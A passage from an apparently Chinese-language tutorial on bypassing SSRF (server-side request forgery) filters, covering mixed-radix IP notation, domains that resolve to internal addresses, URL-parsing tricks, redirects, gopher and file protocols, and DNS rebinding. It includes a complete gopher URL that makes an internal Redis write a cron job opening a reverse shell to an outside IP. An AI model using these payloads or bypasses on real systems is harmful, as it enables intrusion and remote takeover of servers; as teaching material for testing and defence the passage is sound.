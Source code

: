 另外IP中的每一位，各个进制可以混用。

访问改写后的IP地址时，Apache会报400 Bad Request，但Nginx、MySQL等其他服务仍能正常工作。

另外，0.0.0.0这个IP可以直接访问到本地，也通常被正则过滤遗漏。

### 使用解析到内网的域名

如果服务端没有先解析IP再过滤内网地址，我们就可以使用localhost等解析到内网的域名。

另外 ``xip.io`` 提供了一个方便的服务，这个网站的子域名会解析到对应的IP，例如192.168.0.1.xip.io，解析到192.168.0.1。

### 利用解析URL所出现的问题

在某些情况下，后端程序可能会对访问的URL进行解析，对解析出来的host地址进行过滤。这时候可能会出现对URL参数解析不当，导致可以绕过过滤。

比如 ``http://www.baidu.com@192.168.0.1/`` 当后端程序通过不正确的正则表达式（比如将http之后到com为止的字符内容，也就是www.baidu.com，认为是访问请求的host地址时）对上述URL的内容进行解析的时候，很有可能会认为访问URL的host为www.baidu.com，而实际上这个URL所请求的内容都是192.168.0.1上的内容。

### 利用跳转

如果后端服务器在接收到参数后，正确的解析了URL的host，并且进行了过滤，我们这个时候可以使用跳转的方式来进行绕过。

可以使用如 http://httpbin.org/redirect-to?url=http://192.168.0.1 等服务跳转，但是由于URL中包含了192.168.0.1这种内网IP地址，可能会被正则表达式过滤掉，可以通过短地址的方式来绕过。

常用的跳转有302跳转和307跳转，区别在于307跳转会转发POST请求中的数据等，但是302跳转不会。

### 通过各种非HTTP协议

如果服务器端程序对访问URL所采用的协议进行验证的话，可以通过非HTTP协议来进行利用。

比如通过gopher，可以在一个url参数中构造POST或者GET请求，从而达到攻击内网应用的目的。例如可以使用gopher协议对与内网的Redis服务进行攻击，可以使用如下的URL：

    gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1* * * * bash -i >& /dev/tcp/172.19.23.228/23330>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a

除了gopher协议，File协议也是SSRF中常用的协议，该协议主要用于访问本地计算机中的文件，我们可以通过类似 ``file:///path/to/file`` 这种格式来访问计算机本地文件。使用file协议可以避免服务端程序对于所访问的IP进行的过滤。例如我们可以通过 ``file:///d:/1.txt`` 来访问D盘中1.txt的内容。

### DNSLog

一个常用的防护思路是：对于用户请求的URL参数，首先服务器端会对其进行DNS解析，然后对于DNS服务器返回的IP地址进行判断，如果在黑名单中，就禁止该次请求。

但是在整个过程中，第一次去请求DNS服务进行域名解析到第二次服务端去请求URL之间存在一个时间差，利用这个时间差，可以进行DNS重绑定攻击。

要完成DNS重绑定攻击，我们需要一个域名，并且将这个域名的解析指定到我们自己的DNS Server，在我们的可控的DNS Server上编写解析服务，设置TTL时间为0。这样就可以进行攻击了，完整的攻击流程为：

- 服务器端获得URL参数，进行第一次DNS解析，获得了一个非内网的IP
- 对于获得的IP进行判断，发现为非黑名单IP，则通过验证
- 服务器端对于URL进行访问，由于DNS服务器设置的TTL为0，所以再次进行DNS解析，这一次DNS服务器返回的是内网地址。
- 由于已经绕过验证，所以服务器端返回访问内网资源的结果。

### 利用IPv6
